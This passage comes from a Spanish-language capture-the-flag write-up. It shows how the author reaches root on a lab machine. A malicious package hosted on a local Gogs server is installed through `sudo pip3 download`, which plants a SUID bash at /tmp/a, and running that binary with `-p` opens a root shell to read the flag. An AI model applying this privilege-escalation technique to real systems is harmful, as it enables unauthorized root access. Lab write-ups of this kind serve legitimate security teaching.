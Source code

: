 Luego lo comprimimos con un `tar -czf package.tar.gz <directorio>` y lo subimos al Gogs, debemos poner el repositorio como público luego para poder descargar el fichero sin necesidad de autenticación en la pestaña de `Configuración -> Opciones -> Visibilidad`. Al hacerlo copiamos el link `Raw` del fichero y lo introducimos con el comando

```bash
john@only4you:~/.cache$ sudo -u root /usr/bin/pip3 download http://127.0.0.1:3000/john/Test/raw/master/uwu-package.tar.gz
Collecting http://127.0.0.1:3000/john/Test/raw/master/uwu-package.tar.gz
  Downloading http://127.0.0.1:3000/john/Test/raw/master/uwu-package.tar.gz (312 bytes)
  Saved ./uwu-package.tar.gz
Successfully downloaded uwu
```

Como lo especificamos en el `setup.py`, al mirar el directorio `/tmp` encontramos nuestro fichero "a" con el bit SUID puesto

```bash
john@only4you:~/.cache$ ls -la /tmp
total 1384
drwxrwxrwt 19 root  root     4096 Aug 25 20:44 .
drwxr-xr-x 17 root  root     4096 Mar 30 11:51 ..
-rwsr-xr-x  1 root  root  1183448 Aug 25 20:44 a
drwxrwxrwt  2 root  root     4096 Aug 25 17:12 .font-unix
drwxr-xr-x  2 neo4j neo4j    4096 Aug 25 17:12 hsperfdata_neo4j
drwxrwxrwt  2 root  root     4096 Aug 25 17:12 .ICE-unix
drwx------  2 neo4j neo4j    4096 Aug 25 17:13 jetty-localhost-7474-neo4j-browser-5_4_0_jar-_browser-any-15346138888253590193
-rw-r--r--  1 neo4j neo4j  154886 Aug 25 17:13 liblz4-java-2947258094398385522.so
-rw-r--r--  1 neo4j neo4j       0 Aug 25 17:13 liblz4-java-2947258094398385522.so.lck
drwx------  2 root  root     4096 Aug 25 20:30 pip-req-build-6399vkih
drwx------  2 root  root     4096 Aug 25 20:39 pip-req-build-nci_drxu
drwx------  2 root  root     4096 Aug 25 20:33 pip-req-build-qttp2b50
drwx------  2 root  root     4096 Aug 25 20:38 pip-req-build-w2hgxoop
drwx------  3 root  root     4096 Aug 25 17:12 systemd-private-827e1811966947b29f97e75b7689cae8-gogs.service-16t3Rh
drwx------  3 root  root     4096 Aug 25 17:12 systemd-private-827e1811966947b29f97e75b7689cae8-ModemManager.service-MjPfYg
drwx------  3 root  root     4096 Aug 25 17:12 systemd-private-827e1811966947b29f97e75b7689cae8-systemd-logind.service-Jvpaph
drwx------  3 root  root     4096 Aug 25 17:12 systemd-private-827e1811966947b29f97e75b7689cae8-systemd-resolved.service-uTOiBg
drwx------  3 root  root     4096 Aug 25 17:12 systemd-private-827e1811966947b29f97e75b7689cae8-systemd-timesyncd.service-BCT37g
drwxrwxrwt  2 root  root     4096 Aug 25 17:12 .Test-unix
drwx------  2 root  root     4096 Aug 25 17:13 vmware-root_833-3979642945
drwxrwxrwt  2 root  root     4096 Aug 25 17:12 .X11-unix
drwxrwxrwt  2 root  root     4096 Aug 25 17:12 .XIM-unix
```

Ya con eso podremos tomar la última flag.

```bash
john@only4you:~/.cache$ /tmp/a -p
a-5.0# cd /root
a-5.0# ls
root.txt  scripts
a-5.0# cat root.txt
8bb9996010c96880cc1f726988******
```